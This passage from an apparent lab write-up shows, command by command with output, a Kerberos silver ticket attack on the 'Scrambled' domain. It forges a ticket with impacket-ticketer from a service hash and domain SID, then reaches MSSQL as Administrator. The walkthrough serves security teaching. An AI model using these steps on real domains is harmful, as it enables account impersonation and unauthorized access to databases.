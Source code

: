 - SID

the SPN of the account is found earlier by enumerating the service accounts `MSSQLSvc/dc1.scrm.local`.<br>
The NTLM hash is obtained by converting the service accounts password to a NTLM hash by using: `https://www.browserling.com/tools/ntlm-hash`.<br>
![capture-10](capture-10.PNG)
the SID of the domain is obtained by running impackets getPac.
```
impacket-getPac -targetUser administrator scrm.local/ksimpson:ksimpson
S-1-5-21-2743207045-1827831105-2542523200
```
Another way would have been ldapsearch however for unknown reasons, this did not work for me.
```
ldapsearch -H ldap://10.129.248.0 -U ksimpson -b 'DC=SCRM,DC=LOCAL'
```

With this, we have the following information to perform a silver ticket attack.
```
SPN: MSSQLSvc/dc1.scrm.local
NTLM: b999a16500b87d17ec7f2e2a68778f05
SID: S-1-5-21-2743207045-1827831105-2542523200
```

We can now perform a silver ticket attack.
```
┌──(tsunami㉿coffee)-[~/Documents/scrambled]
└─$ impacket-ticketer -spn MSSQLSvc/dc1.scrm.local -user-id 500 Administrator -nthash b999a16500b87d17ec7f2e2a68778f05 -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -domain scrm.local
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for scrm.local/Administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in Administrator.ccache

export KRB5CCNAME=Administrator.ccache 
```
![capture-14](capture-14.PNG)

## mssql
We can now access the mssql service.
```
┌──(tsunami㉿coffee)-[~/Documents/scrambled]
└─$ impacket-mssqlclient dc1.scrm.local -k
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC1): Line 1: Changed database context to 'master'.
[*] INFO(DC1): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (SCRM\administrator  dbo@master)> 
```